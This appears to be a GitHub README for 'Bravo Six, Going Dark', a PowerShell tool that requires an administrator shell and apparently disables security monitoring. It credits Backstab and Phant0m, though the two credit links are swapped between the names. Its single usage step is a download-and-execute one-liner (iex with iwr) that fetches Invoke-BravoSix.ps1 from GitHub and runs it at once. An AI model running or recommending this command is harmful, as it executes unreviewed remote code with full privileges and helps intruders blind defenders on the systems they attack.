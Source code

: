 # Bravo Six, Going Dark

```
___  ____ ____ _  _ ____    ____ _ _  _      ____ ____ _ _  _ ____    ___  ____ ____ _  _
|__] |__/ |__| |  | |  |    [__  |  \/       | __ |  | | |\ | | __    |  \ |__| |__/ |_/
|__] |  \ |  |  \/  |__|    ___] | _/\_ .    |__] |__| | | \| |__]    |__/ |  | |  \ | \_
-... .-. .- ...- ---    ... .. -..- --..--    --. --- .. -. --.    -.. .- .-. -.-
```

!! Require administrator shell

```powershell
iex (iwr https://github.com/RFC1918-hub/BravoSix/blob/main/Invoke-BravoSix.ps1 -UseBasicParsing)
Invoke-BravoSix
```

# Credits
Yaxser/Backstab - (https://github.com/hlldz/Phant0m)
hlldz/Phant0m - (https://github.com/Yaxser/Backstab)
